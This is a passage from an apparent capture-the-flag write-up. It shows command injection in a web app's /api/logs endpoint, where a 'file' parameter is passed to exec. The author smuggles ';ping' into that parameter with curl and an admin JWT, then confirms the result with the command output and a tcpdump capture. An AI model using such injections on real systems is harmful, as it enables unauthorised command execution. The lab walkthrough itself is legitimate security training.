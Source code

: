 `exec` is a dangerous [command](https://developer.mozilla.org/en-
US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/exec), as it will
execute the given string. `${file}` is passed in as a parameter to
`/api/logs`. With control over `${file}`, I can make `getLogs` into something
like:

    
    
    git log --oneline; [any command]
    

#### POC - ping

With access as theadmin, I’ll try the command injection from above. I’ll start
`tcpdump` to listen for ICMP packets, and pass `file=;ping -c 1 10.10.14.6`
(url encoded with `+` for space):

    
    
    oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8"
    "80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nPING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.\n64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=75.8 ms\n\n--- 10.10.14.6 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 75.768/75.768/75.768/0.000 ms\n"
    

The result include the `ping` output after the `git log` output! I can make it
print prettier using `jq -r .`, which will take JSON input (a plain string is
valid JSON) and remove the formatting to make it raw:

    
    
    oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
    80bf34c fixed typos 🎉
    0c75212 now we can view logs from server 😃
    ab3e953 Added the codes
    PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
    64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=104 ms
    
    --- 10.10.14.6 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 103.897/103.897/103.897/0.000 ms
    

The results of the ping come back showing it worked! I can also see the
connection at `tcpdump`:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:04:53.974591 IP 10.10.11.120 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
    12:04:53.974607 IP 10.10.14.6 > 10.10.11.120: ICMP echo reply, id 1, seq 1, length 64
    